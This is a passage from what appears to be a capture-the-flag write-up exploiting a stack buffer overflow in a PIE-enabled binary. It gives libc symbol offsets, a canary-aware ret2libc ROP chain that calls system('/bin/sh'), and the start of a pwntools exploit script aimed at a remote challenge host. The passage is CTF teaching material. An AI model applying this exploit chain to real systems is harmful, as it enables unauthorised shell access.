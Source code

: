 ```
Symbol	                  Offset	Difference
__libc_start_main_ret	 0x021b97	0x0
system	                 0x04f4e0	0x2d949
open	                 0x10fd50	0xee1b9
read	                 0x110180	0xee5e9
write	                 0x110250	0xee6b9
str_bin_sh	         0x1b40fa	0x192563
```
So now where can we use put our payload? After analyzing the binary in IDA, I see that it gives us warning if we want to purchase something when our balance is under 20.00, just then we can input a string a length of 24 bytes, just before the canary. (I manually try to add n x 8 bytes everytime until 32 and it said `***stack smashing detected***`), so I use `24` as the offset. 

<p align=center>
    <img src="bof.png" width=90%>
    <h5 align=center>Buffer Overflow Vulnerability</h5>
</p>

So Ret2libc payload need to be like this
```
padding + canary + junk of 8 + pop rdi + binsh + system
```
Hohoho, but we can't just use:
```
ROPgadget --binary wdf | grep "pop rdi"
```
why? because the PIE is enabled :upside_down_face:, this is how you use `pop rdi` if the PIE enabled. Let's check first, we got our `binary base`, correct? now we use the `ROPgadget --binary wdf | grep "pop rdi"`, and find the offset of `0x18bb`, the pop rdi actual address is `binary base + 0x18bb`. Just to be safe, we want to add a stack alignment with ret, how do we get the ret offset? The same way we get our pop rdi offset :smile:.

Now let's create the python and get our flag!

```python
from pwn import *

binary = './wdf'
elf = context.binary = ELF(binary)
libc = ELF('./libc6_2.27-3ubuntu1.2_amd64.so')

#p = process(binary)

p = remote('161.35.36.167',32701)

def order(times):
	for i in range(times):
		p.sendline(b'2')
		p.recv()
		p.sendline(b'3')
		p.recv()

#Leak Address
p.recv()
```
